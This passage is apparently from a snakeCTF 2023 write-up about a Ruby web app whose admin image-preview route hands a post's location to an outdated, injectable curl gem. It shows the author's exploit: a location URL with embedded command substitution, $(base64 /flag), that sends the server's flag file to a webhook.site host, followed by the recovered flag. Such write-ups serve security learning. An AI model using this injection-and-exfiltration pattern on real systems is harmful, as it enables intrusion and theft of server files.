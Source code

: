 ```ruby
        result = 'data://image;base64,' + Base64.strict_encode64(processed.to_blob())
        File.unlink(filename)
        return result
    end
```

This function is called when **an admin user requests the preview route of the post**. (Figure 6)

```ruby
  def preview
    cat_exists?
    @kitten = Cat.find(params[:id])
    @image_url = @kitten.location
    
    return unless is_admin?
    @processed_data = process_image(@image_url)
  end
```

##### Third vulnerability: Command injection due to lack of input sanitization
It turns out that the `curl` gem used in `Gemfile.lock` is [outdated and vulnerable to command injection due to lack of input sanitization. ](https://github.com/advisories/GHSA-hxx6-p24v-wg8c)

```
[...]
    curl (0.0.9)
[...]
```

So we can easily exploit this by creating a 'cat' (post) with the following location:  (Figure 15)

`https://webhook.site/6c872784-a208-4a97-816f-f8bda206acbe/$(base64 /flag)`

{{< image src="/img/snakeCTF2023/flag_post.png" >}}
**Figure 15**: Location exploit

Then, when we visit the preview, we trigger an error in the backend, but we got a request with the flag at the provided URL. (Figure 16)

{{< image src="/img/snakeCTF2023/webhook.png" >}}
**Figure 16**: Received flag request

After decoding the base64, we have the flag

> snakeCTF{I_th0ugh7_it_w4s_4_k1tten}
